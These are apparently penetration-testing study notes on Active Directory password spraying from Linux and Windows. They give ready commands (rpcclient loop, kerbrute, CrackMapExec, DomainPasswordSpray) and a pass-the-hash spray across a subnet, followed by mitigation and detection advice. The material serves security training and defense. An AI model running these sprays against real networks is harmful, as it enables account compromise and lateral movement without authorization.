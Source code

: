 # Internal Password Spraying - from Linux
## Internal Password Spraying from a Linux Host (==no== domain-joined )

```bash
# Using a Bash one-liner for the Attack
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" <DC-IP> | grep Authority; done
  # find : Account Name: tjohnson, Authority Name: INLANEFREIGHT

# Using Kerbrute for the Attack
kerbrute passwordspray -d inlanefreight.local --dc <DC-IP> valid_users.txt  Welcome1

# Using CrackMapExec & Filtering Logon Failures
sudo crackmapexec smb <DC-IP> -u valid_users.txt -p Password123 --continue-on-success | grep +
```

## Local Administrator Password Reuse


- If you obtain **administrative** access and the **NTLM password hash or cleartext password** for the local administrator account (**or another privileged local account**), this can be **attempted across multiple hosts in the network.** 
- If we find a **desktop host** (workstation host) with the **local administrator account** password set to something unique such as `$desktop%@admin123`, it might be worth attempting `$server%@admin123` against servers. 
- if we find **non-standard local administrator accounts** such as `bsmith`, we may find that the **password is reused** for a **similarly named domain user account**
-  If we retrieve the password for a **domain user** `ajones`, it is worth trying the **same password** on their **domain admin account** (if the user has one), it cloud be like `ajones_adm`(**privileged domain user**)
- We may obtain valid credentials for a **user in domain A** that are valid for a user with the same or similar username in **domain B**
- It is worth targeting high-value hosts such as **SQL or Microsoft Exchange servers**, as they are more likely to have a highly privileged **user logged** in or have their **credentials persistent in memory**.




 if we retrieve the NTLM hash for the l**ocal administrator account** from the local SAM database. In these instances, we can **spray the NT hash across an entire subnet** (or multiple subnets) to hunt for **local administrator accounts with the same password set**.
```bash
#### Local Admin Spraying with CrackMapExec
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

>This technique, while effective, is quite noisy and is not a good choice for any assessments that require stealth.
>One way to remediate this issue is using the free Microsoft tool [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) to have Active Directory manage local administrator passwords and enforce a unique password on each host that rotates on a set interval.


# Internal Password Spraying - from Windows

From a foothold on a domain-joined Windows host, the [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool is highly effective. If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out. Like how we ran the spraying attack from our Linux host, we can also supply a user list to the tool if we are on a Windows host but not authenticated to the domain.
## Internal -  domain-joined
Since the host is domain-joined, we will skip the `-UserList` flag and let the tool generate a list for us.
```bash
# Using DomainPasswordSpray.ps1
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

# using Kerbrute.exe
.\kerbrute_Windows.exe passwordspray -d <DOMAIN_NAME> .\userlist.txt Welcome1 --dc <DC_IP> --output spray_success.txt
```

## External Password Spraying
==While outside the scope of this module== . **external Password Spraying** means doing the same spraying technique you learned, but **from the internet** instead of inside the internal network.

- The goal is to guess one valid username/password combo to get into something exposed online.
- Once you log in, you may get email access, remote desktop, VPN access, or an internal web app — which can give you a foothold in the organization.

**Typical external targets (all often use Active Directory accounts):**

- **Microsoft 365** accounts
- **Outlook Web Access / Exchange Web Access** (email login pages)
- **Skype for Business / Lync Server** (corporate chat)
- **Remote Desktop Services (RDS) portals**
- **Citrix portals** (virtual desktops)
- **VMware Horizon VDI** (virtual desktop infrastructure)
- **VPN portals** (Citrix, SonicWall, OpenVPN, Fortinet, etc.)
- **Custom websites** that use AD login

Basically, anything **publicly accessible** that uses the same **domain usernames and passwords** can be a target for spraying from outside.

# Mitigations

- **Multi-factor Authentication** – Use MFA (push, OTP, RSA, SMS) on all external portals; prevents login but may still leak valid creds.
- **Restricting Access** – Limit app access to only necessary domain users (least privilege).
- **Reduce Impact** – Use separate admin accounts, app-specific permissions, and network segmentation to slow/stop lateral movement.
- **Password Hygiene** – Educate users on strong passphrases; enforce password filters to block common/dictionary/company-related words.

>It is vital to ensure that your domain password lockout policy doesn’t increase the risk of denial of service attacks. If it is very restrictive and requires an administrative intervention to unlock accounts manually, a careless password spray may lock out many accounts within a short period.

## Detection
- Look for:
    - Many account lockouts in a short period.
    - App/server logs showing multiple login attempts (valid & invalid users).
    - High volume of requests to the same app/URL.
- **Event ID 4625** → Failed SMB logons in short time (password spraying).
- Correlate many failed logons within a set time window.
- Savvy attackers may avoid SMB and use **LDAP** instead.
- **Event ID 4771** → Kerberos pre‑auth failed (can indicate LDAP/Kerberos spraying) — requires Kerberos logging enabled.
- Fine‑tuned logging + correlation rules = stronger detection of internal & external spraying.

